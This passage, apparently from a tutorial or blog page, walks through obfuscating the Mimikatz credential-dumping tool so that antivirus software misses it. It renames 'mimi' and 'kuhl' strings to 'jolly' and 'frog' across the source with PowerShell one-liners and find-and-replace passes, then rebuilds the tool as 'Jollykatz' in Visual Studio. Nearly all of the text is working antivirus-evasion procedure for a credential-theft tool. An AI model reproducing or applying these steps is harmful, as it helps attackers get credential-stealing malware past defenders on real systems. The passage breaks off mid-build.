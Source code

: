 NOTE: the installation commences

- Click "LAUNCH" after install completes
- Click "Not now, maybe later." in the Welcome screen
- Select "General" and Select "Blue" and Click "Start Visual Studio"

### Prevent AV detection on Mimikatz:

Extract mimikatz-master.zip to C:\\jollykatz\\ (you should end up with C:\\jollykatz\\mimikatz-master\\mimikatz.sln" and a whole bunch of files/folders)

run the following in a cmd.exe to rename all files and folders to from "mimi" to "jolly":

{% highlight shell_session %}
powershell.exe -noprofile -command "1..10 | % {Get-ChildItem c:\\jollykatz\\ -Filter \\"*mimi*\\" -Recurse | Rename-Item -NewName {$_.name -replace 'mimi','jolly' }}"

powershell.exe -noprofile -command "1..10 | % {Get-ChildItem c:\\jollykatz\\ -Filter \\"*kuhl*\\" -Recurse | Rename-Item -NewName {$_.name -replace 'kuhl','frog' }}"

run fnr.exe with following settings:
Dir: C:\\jollykatz\\
Tick "Include sub-directories
File Mask: *.*
Find: mimi
replace: jolly
Click "replace"
run fnr.exe with following settings:
Dir: C:\\jollykatz\\
Tick "Include sub-directories
File Mask: *.*
Find: kuhl
replace: frog
Click "replace"
run fnr.exe with following settings:
Dir: C:\\jollykatz\\
Tick "Include sub-directories
File Mask: *.*
Find: eo.oe.kiwi ![](http://cdn.techexams.net/images/smilies/icon_smile.gif "Smile")
replace: THINC.local
Click "replace"
Close fnr.exe

Copy "EncodePointer.lib" to C:\\jollykatz\\jollykatz-master\\lib\\Win32
Copy "EncodePointer.lib" to C:\\jollykatz\\jollykatz-master\\lib\\x64
NOTE: We're adding "EncodePointer.lib" because WinXP SP0/SP1 would error out with a DecodePointer error caused by compiling with VS2013
{% endhighlight %}

### Now we'll build "Jollykatz":

- Double-click on "C:\\jollykatz\\jollykatz-master\\jollykatz.sln"

NOTE: Visual Studio Community Edition opens your project
